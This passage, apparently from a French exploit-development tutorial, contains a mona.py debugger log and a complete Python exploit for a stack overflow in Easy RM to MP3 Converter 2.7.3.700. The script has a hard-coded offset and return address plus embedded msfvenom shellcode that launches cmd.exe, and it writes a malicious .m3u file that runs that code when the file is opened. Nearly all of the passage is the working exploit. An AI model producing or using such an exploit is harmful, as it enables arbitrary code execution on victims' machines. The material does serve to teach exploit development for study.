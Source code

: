 ``` text
0BADF00D   [+] This mona.py action took 0:00:02.314000
           [12:25:33] Thread 0000054C terminated, exit code 0
           [12:26:32] Thread 000005F4 terminated, exit code 0
```

On trouve une adresse de retour utilisable: **0x1001b058**. L'exploit final:

``` python
#!/bin/env python
# Exploit Title: Stack Overflow in Easy RM to MP3 Converter
# Date: 18/04/2016
# Exploit Author: Arnaud Abramovici
# Vendor Homepage: [link]
# Software Link: [download link if available]
# Version: 2.7.3.700
# Tested on: Windows 7 SP1 Ultimate (Should work on every version)

# Exploit information
# Offset: 26109
# Return address: 0x1001b058 (push esp # ret in MSRMfilter03.dll)
# Payload: msfvenom -p windows/exec CMD=cmd.exe -f py --bad-chars "\x00\x0d\x0a"


offset = 20000 + 6109
ret = '\x58\xb0\x01\x10'
nop = '\x90'
buf =  ""
buf += "\xd9\xcf\xbd\x0f\x30\x90\xb7\xd9\x74\x24\xf4\x58\x29"
buf += "\xc9\xb1\x31\x31\x68\x17\x83\xc0\x04\x03\x67\x23\x72"
buf += "\x42\x8b\xab\xf0\xad\x73\x2c\x95\x24\x96\x1d\x95\x53"
buf += "\xd3\x0e\x25\x17\xb1\xa2\xce\x75\x21\x30\xa2\x51\x46"
buf += "\xf1\x09\x84\x69\x02\x21\xf4\xe8\x80\x38\x29\xca\xb9"
buf += "\xf2\x3c\x0b\xfd\xef\xcd\x59\x56\x7b\x63\x4d\xd3\x31"
buf += "\xb8\xe6\xaf\xd4\xb8\x1b\x67\xd6\xe9\x8a\xf3\x81\x29"
buf += "\x2d\xd7\xb9\x63\x35\x34\x87\x3a\xce\x8e\x73\xbd\x06"
buf += "\xdf\x7c\x12\x67\xef\x8e\x6a\xa0\xc8\x70\x19\xd8\x2a"
buf += "\x0c\x1a\x1f\x50\xca\xaf\xbb\xf2\x99\x08\x67\x02\x4d"
buf += "\xce\xec\x08\x3a\x84\xaa\x0c\xbd\x49\xc1\x29\x36\x6c"
buf += "\x05\xb8\x0c\x4b\x81\xe0\xd7\xf2\x90\x4c\xb9\x0b\xc2"
buf += "\x2e\x66\xae\x89\xc3\x73\xc3\xd0\x89\x82\x51\x6f\xff"
buf += "\x85\x69\x6f\x50\xee\x58\xe4\x3f\x69\x65\x2f\x04\x85"
buf += "\x2f\x6d\x2d\x0e\xf6\xe4\x6f\x53\x09\xd3\xac\x6a\x8a"
buf += "\xd1\x4c\x89\x92\x90\x49\xd5\x14\x49\x20\x46\xf1\x6d"
buf += "\x97\x67\xd0\x0e\x7a\xfc\xf5\xb5\xfc\x99\x09"

# Creating file content
content = nop*offset+ret+nop*100+buf+nop*(30000-4-offset-100-len(buf))

# Creating payload file
f = open('file.m3u','w')
f.write(content)
```
